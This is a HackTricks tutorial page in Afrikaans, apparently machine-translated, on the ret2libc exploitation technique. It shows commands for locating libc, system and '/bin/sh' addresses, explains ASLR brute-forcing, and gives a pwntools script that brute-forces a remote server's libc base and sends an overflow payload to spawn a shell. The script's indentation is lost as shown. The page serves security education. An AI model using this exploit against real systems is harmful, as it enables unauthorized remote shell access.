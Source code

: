 # Ret2lib

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basiese Inligting**

Die essensie van **Ret2Libc** is om die uitvoeringsvloei van 'n kwesbare program te herlei na 'n funksie binne 'n gedeelde biblioteek (bv., **system**, **execve**, **strcpy**) in plaas daarvan om aanvaller-geleverde shellcode op die stapel uit te voer. Die aanvaller vervaardig 'n payload wat die terugkeeradres op die stapel aanpas om na die gewenste biblioteekfunksie te wys, terwyl hy ook sorg dat enige nodige argumente korrek opgestel word volgens die aanroepkonvensie.

### **Voorbeeld Stappe (vereenvoudig)**

* Kry die adres van die funksie om aan te roep (bv. system) en die opdrag om aan te roep (bv. /bin/sh)
* Genereer 'n ROP-ketting om die eerste argument wat na die opdragstring wys en die uitvoeringsvloei na die funksie oor te dra

## Vind die adresse

* Aannemend dat die `libc` wat gebruik word die een van die huidige masjien is, kan jy vind waar dit in geheue gelaai sal word met:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

As jy wil kyk of die ASLR die adres van libc verander, kan jy doen:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Deur die libc wat gebruik word te ken, is dit ook moontlik om die offset na die `system` funksie te vind met:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Deur die libc wat gebruik word te ken, is dit ook moontlik om die offset na die string `/bin/sh` funksie te vind met:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Gebruik gdb-peda / GEF

As jy die libc ken wat gebruik word, is dit ook moontlik om Peda of GEF te gebruik om die adres van die **system** funksie, die **exit** funksie en die string **`/bin/sh`** te kry:
```
p system
p exit
find "/bin/sh"
```
### Gebruik van /proc/\<PID>/maps

As die proses **kinders** skep elke keer as jy met dit praat (netwerkbediener), probeer om daardie lêer te **lees** (waarskynlik sal jy root nodig hê).

Hier kan jy **presies waar die libc gelaai is** binne die proses en **waar dit gelaai gaan word** vir elke kind van die proses vind.

![](<../../../../.gitbook/assets/image (95).png>)

In hierdie geval is dit gelaai in **0xb75dc000** (Dit sal die basisadres van libc wees)

## Onbekende libc

Dit mag moontlik wees dat jy **nie weet watter libc die binêre laai nie** (omdat dit dalk op 'n bediener geleë is waar jy geen toegang het nie). In daardie geval kan jy die kwesbaarheid misbruik om **some adresse te lek en te vind watter libc** biblioteek gebruik word:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

En jy kan 'n pwntools-sjabloon hiervoor vind in:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Om ASLR in 32-bis te omseil

Hierdie brute-forcing aanvalle is **slegs nuttig vir 32-bis stelsels**.

* As die eksploit plaaslik is, kan jy probeer om die basisadres van libc te brute-force (nuttig vir 32-bis stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* As jy 'n afstandsbediening bediener aanval, kan jy probeer om die **adres van die `libc` funksie `usleep` te brute-force**, met 10 as argument (byvoorbeeld). As die **bediener op 'n stadium 10s ekstra neem om te antwoord**, het jy die adres van hierdie funksie gevind.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Voorbeeld

In hierdie voorbeeld is ASLR brute-force geïntegreer in die kode en die kwesbare binêre is op 'n afstandsbediening bediener geleë:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kode Voorbeeld

Kyk na die voorbeeld vanaf:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (of puts)

Dit laat toe om **inligting van die proses te lek** deur `printf`/`puts` met spesifieke data as 'n argument aan te roep.

## Ret2printf

Dit beteken basies om 'n **Ret2lib te misbruik om dit in 'n `printf` formaat string kwesbaarheid te transformeer** deur die `ret2lib` te gebruik om printf met die waardes aan te roep om dit te ontgin (klank nutteloos maar moontlik):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Ander Voorbeelde & verwysings

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, gegee 'n lek na die adres van 'n funksie in libc, met behulp van een gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ASLR geaktiveer maar geen PIE, die eerste stap is om 'n oorgang te vul tot die byte 0x00 van die canary om dan puts aan te roep en dit te lek. Met die canary word 'n ROP gadget geskep om puts aan te roep om die adres van puts van die GOT te lek en dan 'n ROP gadget om `system('/bin/sh')` aan te roep.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ASLR geaktiveer, geen canary, stap oorgang in hoof vanaf 'n kind funksie. ROP gadget om puts aan te roep om die adres van puts van die GOT te lek en dan 'n een gadget aan te roep.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bits, geen pie, geen canary, geen relro, nx. Gebruik skryf funksie om die adres van skryf (libc) te lek en roep een gadget aan.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
